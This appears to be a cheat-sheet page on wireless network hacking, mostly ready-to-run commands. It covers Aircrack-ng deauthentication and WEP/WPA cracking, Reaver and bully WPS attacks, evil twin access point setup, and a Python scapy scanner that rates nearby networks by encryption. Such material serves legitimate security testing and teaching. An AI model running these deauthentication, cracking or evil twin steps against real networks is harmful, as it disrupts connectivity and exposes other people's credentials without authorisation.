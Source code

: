 # Wireless Network Hacking - Topics Overview

## Topic Explanation
Wireless network hacking involves exploiting vulnerabilities in wireless communication protocols, encryption methods, and network configurations. This includes attacks on WiFi networks (WEP, WPA, WPA2, WPA3), Bluetooth, cellular networks, and other wireless technologies. Common attack vectors include passive monitoring, deauthentication attacks, evil twin access points, WPS attacks, and exploiting weak encryption or authentication mechanisms.

## Articles for Further Reference
- [NIST Guidelines for Securing Wireless Networks](https://csrc.nist.gov/publications/detail/sp/800-153/final)
- [WiFi Security Best Practices](https://www.wi-fi.org/security)
- [OWASP Wireless Security Testing](https://owasp.org/www-project-mobile-security-testing-guide/)

## Reference Links
- [Aircrack-ng Documentation](https://www.aircrack-ng.org/)
- [WiFi Alliance Security](https://www.wi-fi.org/security)
- [Bluetooth Security](https://www.bluetooth.com/learn-about-bluetooth/bluetooth-technology/bluetooth-security/)

## Available Tools for the Topic

### Tool Name: Aircrack-ng Suite
**Description:** Complete suite for wireless network security auditing including monitoring, attacking, testing, and cracking.

**Example Usage:**
```bash
# Enable monitor mode
airmon-ng start wlan0

# Capture packets
airodump-ng wlan0mon

# Deauthentication attack
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack WEP
aircrack-ng -b AA:BB:CC:DD:EE:FF capture.cap

# Crack WPA/WPA2 with wordlist
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF capture.cap
```

### Tool Name: Reaver
**Description:** Tool for exploiting WPS vulnerabilities to recover WPA/WPA2 passphrases.

**Example Usage:**
```bash
# WPS attack
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# Pixie dust attack
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K
```

## All Possible Payloads for Manual Approach

### WiFi Attack Techniques
```bash
# Monitor mode setup
airmon-ng start wlan0
iwconfig wlan0 mode monitor

# Network discovery
airodump-ng wlan0mon
iwlist scan | grep ESSID

# Deauthentication attack
aireplay-ng -0 0 -a [BSSID] wlan0mon
aireplay-ng -0 5 -a [BSSID] -c [CLIENT_MAC] wlan0mon

# Evil Twin AP setup
hostapd evil_twin.conf
dnsmasq -C dnsmasq.conf
```

### WPS Exploitation
```bash
# WPS vulnerability scan
wash -i wlan0mon

# Reaver attack
reaver -i wlan0mon -b [BSSID] -vv -L

# Bully attack (alternative)
bully -b [BSSID] -c [CHANNEL] wlan0mon
```

## Example Payloads

### WiFi Security Assessment Tool
```python
#!/usr/bin/env python3
import subprocess
import re
import time
from scapy.all import *

class WiFiSecurityTester:
    def __init__(self, interface):
        self.interface = interface
        self.monitor_interface = interface + "mon"
        self.networks = {}
        
    def enable_monitor_mode(self):
        """Enable monitor mode on wireless interface"""
        try:
            subprocess.run(["airmon-ng", "start", self.interface], check=True)
            print(f"Monitor mode enabled on {self.monitor_interface}")
            return True
        except subprocess.CalledProcessError:
            print("Failed to enable monitor mode")
            return False
    
    def scan_networks(self, duration=30):
        """Scan for wireless networks"""
        print(f"Scanning for networks for {duration} seconds...")
        
        def packet_handler(packet):
            if packet.haslayer(Dot11Beacon):
                bssid = packet[Dot11].addr2
                ssid = packet[Dot11Elt].info.decode('utf-8', errors='ignore')
                
                if bssid not in self.networks:
                    channel = int(ord(packet[Dot11Elt:3].info))
                    encryption = self.get_encryption_type(packet)
                    
                    self.networks[bssid] = {
                        'ssid': ssid,
                        'channel': channel,
                        'encryption': encryption,
                        'signal': packet.dBm_AntSignal if hasattr(packet, 'dBm_AntSignal') else 'Unknown'
                    }
                    
                    print(f"Found: {ssid} ({bssid}) - {encryption}")
        
        sniff(iface=self.monitor_interface, prn=packet_handler, timeout=duration)
        return self.networks
    
    def get_encryption_type(self, packet):
        """Determine encryption type from beacon frame"""
        cap = packet.sprintf("{Dot11Beacon:%Dot11Beacon.cap%}")
        
        if packet.haslayer(Dot11EltRSN):
            return "WPA2"
        elif packet.haslayer(Dot11EltVendorSpecific):
            return "WPA"
        elif "privacy" in cap:
            return "WEP"
        else:
            return "Open"
    
    def test_wps_vulnerability(self, bssid):
        """Test for WPS vulnerabilities"""
        print(f"Testing WPS vulnerability for {bssid}")
        
        try:
            result = subprocess.run(
                ["wash", "-i", self.monitor_interface, "-C"],
                capture_output=True, text=True, timeout=30
            )
            
            if bssid in result.stdout:
                print(f"WPS enabled on {bssid}")
                return True
        except subprocess.TimeoutExpired:
            pass
        
        return False
    
    def generate_report(self):
        """Generate security assessment report"""
        print("\n" + "="*60)
        print("WIRELESS SECURITY ASSESSMENT REPORT")
        print("="*60)
        
        total_networks = len(self.networks)
        open_networks = sum(1 for net in self.networks.values() if net['encryption'] == 'Open')
        wep_networks = sum(1 for net in self.networks.values() if net['encryption'] == 'WEP')
        
        print(f"Total networks found: {total_networks}")
        print(f"Open networks: {open_networks}")
        print(f"WEP networks (vulnerable): {wep_networks}")
        
        print("\nDetailed findings:")
        for bssid, info in self.networks.items():
            risk_level = "HIGH" if info['encryption'] in ['Open', 'WEP'] else "LOW"
            print(f"{info['ssid']} ({bssid}) - {info['encryption']} - Risk: {risk_level}")

# Example usage
tester = WiFiSecurityTester("wlan0")
if tester.enable_monitor_mode():
    tester.scan_networks(60)
    tester.generate_report()
```